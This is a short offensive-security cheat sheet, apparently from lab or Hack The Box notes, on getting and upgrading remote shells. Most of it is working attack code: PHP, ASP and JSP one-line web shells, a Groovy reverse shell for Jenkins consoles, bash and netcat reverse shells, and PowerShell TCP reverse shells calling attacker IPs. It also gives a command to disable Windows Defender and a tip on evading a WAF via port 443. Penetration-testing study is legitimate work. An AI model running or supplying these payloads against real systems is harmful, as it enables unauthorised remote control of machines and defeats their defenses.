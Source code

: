 ! Use 443 port to evade WAF.

##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
Good shell
```
rlwrap nc -lvnp
```
#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_shell.php

```php
<?php system($_REQUEST["cmd"]); ?>
```

##### Java:
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
```asp
<% eval request("cmd") %>
```

##### JSP:
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows

Disable AV to allow running shell from admin's powershell:

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



!
